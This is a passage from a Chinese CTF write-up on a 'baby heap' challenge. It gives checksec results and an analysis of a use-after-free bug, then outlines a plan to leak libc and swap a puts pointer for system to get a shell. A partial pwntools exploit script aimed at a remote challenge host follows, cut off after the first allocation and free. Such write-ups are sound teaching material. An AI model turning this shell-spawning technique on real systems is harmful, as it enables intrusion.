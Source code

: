 PPS：本题彩蛋：比赛第一天是6月8号，刚好是高考第二天，因此题目中的故事都是高考背景。缅怀大家逝去的高中青春。



### baby heap

##### checksec分析

```
[*] '/home/ljb/ctf/aurora/double/double'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

除了RELRO，其他全开。

##### IDA F5分析

主要功能：

1. add info，申请一个0x10大小的堆。前8字节存message地址，后8字节存puts函数地址。message是根据输入大小malloc的堆。
2. del info，删除info。这里是先删除info堆，再删除对应message堆，同时存在UAF漏洞。
3. show info，输入info index输出对应message存的信息。注意这里的输出调用的是info中的puts地址。这里index管理很好不存在溢出。

##### 解题思路：

由于存在UAF，因此可以考虑利用fastbin的特性。先leak出libc，然后把puts函数地址改为system函数地址，message写'/bin/sh'，从而执行system('/bin/sh') get shell。

##### exp：

```python
from pwn import *
elf=ELF("double")
#io=elf.process()
#io=elf.process(,env={'LD_PRELOAD':'.so'})
io=remote("123.207.32.26",9001)
libc=elf.libc
#libc=ELF("")
context.log_level='debug'

sla=io.sendlineafter
sl=io.sendline
sa=io.sendafter
ru=io.recvuntil
shell=io.interactive

def menu(choice):
	sla("choice:\n",str(choice))

def addinfo(length,message='jb'):
	menu(1)
	sla("length\n",str(length))
	sa("message\n",message)

def delinfo(index):
	menu(2)
	sla("delete\n",str(index))

def showinfo(index):
	menu(3)
	sla("watch\n",str(index))

addinfo(0x10)#申请和info同样大小的堆，从而使得message和info被free后进入同一个fastbin
delinfo(0)
```